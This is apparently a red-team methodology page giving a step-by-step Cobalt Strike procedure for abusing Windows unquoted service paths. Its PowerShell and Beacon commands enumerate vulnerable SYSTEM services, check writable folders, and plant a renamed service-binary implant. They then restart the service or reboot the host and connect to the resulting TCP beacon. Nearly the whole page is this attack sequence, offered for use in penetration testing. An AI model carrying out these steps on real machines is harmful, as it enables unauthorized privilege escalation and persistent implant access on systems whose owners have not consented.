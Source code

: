 ```yaml
---
title: "Unquoted Service Path Abuse Methodology"
author: "nickvourd"
description: "An unquoted service path is where the path to the service binary is not wrapped in quotes. When Windows attempts to read the path to this executable, it interprets the space as a terminator."
date: 2022-01-27
---
```



### An unquoted service path is where the path to the service binary is not wrapped in quotes. When Windows attempts to read the path to this executable, it interprets the space as a terminator.
---

#### -> Find apps vulnerable to Unquoted Service Path (Beacon Command):

```powershell
$ powershell Get-CimInstance win32_service | select Name,DisplayName,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.StartName -eq "LocalSystem" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List
```

* If you can't find any vulnerable service just use the following command and search manually all services (Beacon Command):

```powershell
$ powershell Get-CimInstance win32_service | select Name,PathName,StartMode,StartName | fl
```


#### -> Find Information about the vulnearble service such as STATUS, SERVICE_START_NAME, START_TYPE etc (Beacon Command):

```powershell
$ powerhell sc.exe qc "Sevice_Name"
```


#### -> Try to find a writable folder (Beacon Command):

```powershell
$ powershell Get-Acl -Path "C:\[Path]\[Path]" | fl
```



#### -> Generate the maliacious implant and upload this on writable directory or in writable service file.
* Payloads to abuse services must be specific "service binaries". We can do this in Cobalt Strike via `Attacks > Packages > Windows Executable (S)` and selecting the `Service Binary` output type.


#### -> Rename the name of beacon-tcp.exe to the name of tha folder or service name before the space (Beacon Command):

```powershell
$ powershell mv beacon-tcp.exe [name_of_folder_or_service_name_before_space].exe
```
#### -> Check the service status (Beacon Command):

```powershell
$ powershell sc.exe query [service_name]
```

#### -> Use .accesschk from Sysinternals Suite in order to check permissions to start/stop the service (Beacon Command):

```powershell
$ powershell .\accesschk64.exe /accepteula -ucqv [user] [service_name]
```

* If you have persmisions to stop/start just stop the service (Beacon Command):

```powershell
$ powershell sc.exe stop [service_name]
```

* Then, start the service again (Beacon Command):

```powershell
$ powershell sc.exe start [service_name]
```

* Next, verify that the port is listening on victim's localhost (Beacon Command):

```powershell
$ run netstat -anp TCP
```

* Last but not least connect to the listening beacon (Beacon Command):

```powershell
$ connect localhost [port]
```

#### -> If you don't have permissions to start/stop the victim's vulnerable service, just reboot the victim's machine and connect to TCP Beacon.


---

###### Social links
- [[GitHub]](https://github.com/nickvourd)
- [[Twitter]](https://twitter.com/nickvourd)
